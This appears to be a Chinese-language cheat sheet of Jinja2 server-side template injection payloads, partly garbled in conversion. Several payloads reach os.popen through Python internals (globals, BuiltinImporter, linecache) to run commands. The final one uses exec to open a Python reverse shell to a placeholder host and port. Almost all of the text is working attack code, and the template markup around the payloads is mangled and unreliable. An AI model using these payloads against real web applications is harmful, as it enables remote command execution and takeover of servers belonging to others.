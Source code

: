 ```python
</div>

# 命令执行_popen

<div data-gb-custom-block data-tag="for">

    

<div data-gb-custom-block data-tag="if" data-0='popen' data-1='popen' data-2='popen' data-3='popen' data-4='popen' data-5='popen' data-6='popen' data-7='popen' data-8='popen'>

        {{ x.__init__.__globals__['popen']('ls /').read() }}
    

</div>

</div>

# 命令执行__frozen_importlib.BuiltinImporter

<div data-gb-custom-block data-tag="for">

    

<div data-gb-custom-block data-tag="if" data-0='BuiltinImporter'>

        {{ x["load_module"]("os")["popen"]("ls /").read() }}
    

</div>

</div>

# 命令执行_linecache

<div data-gb-custom-block data-tag="for">

    

<div data-gb-custom-block data-tag="if" data-0='linecache' data-1='linecache' data-2='linecache' data-3='linecache' data-4='linecache' data-5='linecache'>

        {{ x.__init__.__globals__['linecache']['os'].popen('ls /').read() }}
    

</div>

</div>

# 命令执行_exec(无回显故反弹shell)

<div data-gb-custom-block data-tag="for">

    

<div data-gb-custom-block data-tag="if" data-0='exec' data-1='exec' data-2='exec' data-3='exec' data-4='exec' data-5='exec' data-6='exec' data-7='exec' data-8='exec' data-9='exec' data-10='__builtins__' data-11='__builtins__' data-12='][' data-13='][' data-14='][' data-15=']['>

        {{ x.__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("HOST_IP",Port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')}}
    
```